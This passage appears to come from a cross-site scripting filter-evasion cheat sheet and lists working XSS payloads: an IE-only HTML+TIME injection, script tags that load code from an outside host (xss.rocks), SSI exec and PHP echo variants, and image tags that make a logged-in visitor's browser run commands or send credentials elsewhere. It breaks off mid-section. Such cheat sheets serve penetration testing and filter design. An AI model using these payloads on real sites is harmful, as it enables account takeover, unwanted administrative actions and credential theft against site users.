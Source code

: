 This attack only works in IE and remember that you need to be between HTML and BODY tags for this to work:

```html
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

(This is how Grey Magic hacked Hotmail and Yahoo!)

### Assuming you can only fit in a few characters and it filters against `.js`

This attack allows you to rename your JavaScript file to an image as an XSS vector:

```html
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```

### SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:

```js
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```

### PHP

This attack requires PHP to be installed on the server. Again, if you can run any scripts remotely like this, there are probably much more dire issues:

```php
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

### IMG Embedded Commands

This attack only works when this is injected (like a web-board) in a web page behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc. This is one of the lesser used but more useful XSS vectors:

```html
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

#### IMG Embedded Commands part II

This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could actually be an attack vector to run commands as the user who views the image link. Here is the `.htaccess` (under Apache) line to accomplish the vector:
